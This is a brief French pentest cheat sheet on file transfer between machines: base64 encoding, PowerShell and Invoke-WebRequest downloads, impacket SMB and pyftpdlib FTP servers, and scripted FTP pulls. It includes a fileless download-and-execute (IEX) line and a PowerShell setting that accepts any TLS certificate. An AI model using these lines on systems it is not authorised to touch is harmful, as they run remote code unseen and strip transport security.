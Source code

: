 #### Envoie de fichier en base64

```bash
cat $fichier |base64 -w 0;echo
```

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\$fichier", [Convert]::FromBase64String("$base64"))
```

#### Télécharger un fichier en powershell

```powershell
 
(New-Object Net.WebClient).DownloadFileAsync('$url','$nomFichier')
```

#### Télécharger un fichier en mémoire et l'exécuter (fileless)

```powershell
IEX (New-Object Net.WebClient).DownloadString('$Url_Script.ps1')

ou

(New-Object Net.WebClient).DownloadString('$Url_Script.ps1') | IEX
```

#### Télécharger un fichier via Invoke-WebRequest (ou un de ses Alias: wget, curl, iwr)

```powershell
Invoke-WebRequest $url -OutFile $nomFichier
```

#### Bypasser un certificat untrusted

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### Réception d'un fichier via création d'un partage SMB

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user t3st -password p4ssword
```

```powershell
net use n: \\$monip\share /user:t3st p4ssword
```

#### Réception d'un fichier via création d'un serveur FTP

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://$monIp/file.txt', 'ftp-file.txt')

Ou, en cas de shell non-interractif:

echo open $monIp > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
